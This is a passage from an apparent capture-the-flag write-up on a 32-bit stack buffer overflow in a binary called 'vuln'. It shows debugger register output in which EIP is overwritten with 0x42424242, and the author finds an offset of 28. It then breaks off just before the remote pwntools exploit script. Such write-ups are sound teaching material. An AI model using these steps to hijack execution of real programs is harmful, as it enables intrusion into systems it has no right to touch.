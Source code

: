 <span style="color:#EC0101"><b>$edx   </b></span>: <span style="color:#9755B3">0xffffd560</span>  →  <span style="color:#D41919">0x80e5000</span>  →  <span style="color:#585858"><b><_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al</b></span>
<span style="color:#EC0101"><b>$esp   </b></span>: <span style="color:#9755B3">0xffffd560</span>  →  <span style="color:#D41919">0x80e5000</span>  →  <span style="color:#585858"><b><_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al</b></span>
<span style="color:#EC0101"><b>$ebp   </b></span>: 0x41414141 ("<span style="color:#FEA44C">AAAA</span>"?)
<span style="color:#EC0101"><b>$esi   </b></span>: <span style="color:#D41919">0x80e5000</span>  →  <span style="color:#585858"><b><_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al</b></span>
<span style="color:#EC0101"><b>$edi   </b></span>: <span style="color:#D41919">0x80e5000</span>  →  <span style="color:#585858"><b><_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al</b></span>
<span style="color:#EC0101"><b>$eip   </b></span>: 0x42424242 ("<span style="color:#FEA44C">BBBB</span>"?)
<span style="color:#367BF0">$cs</span>: 0x23 <span style="color:#367BF0">$ss</span>: 0x2b <span style="color:#367BF0">$ds</span>: 0x2b <span style="color:#367BF0">$es</span>: 0x2b <span style="color:#367BF0">$fs</span>: 0x00 <span style="color:#EC0101"><b>$gs</b></span>: 0x63 
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">code:x86:32</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>[!]</b></span> Cannot disassemble from $PC
<span style="color:#EC0101"><b>[!]</b></span> Cannot access memory at address 0x42424242
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">threads</span><span style="color:#585858"><b> ────</b></span>
[<span style="color:#47D4B9"><b>#0</b></span>] Id 1, Name: "vuln", <span style="color:#EC0101"><b>stopped</b></span> <span style="color:#367BF0">0x42424242</span> in <span style="color:#FF8A18"><b>??</b></span> (), reason: <span style="color:#962AC3"><b>SIGSEGV</b></span>
</pre></td></tr></table></figure>

The offset is 28, as we've successfully loaded 4 hex `B`s into the `$eip`. Our last step is to set up the remote connection with [pwntools](https://docs.pwntools.com/en/stable/). Here is my final script:
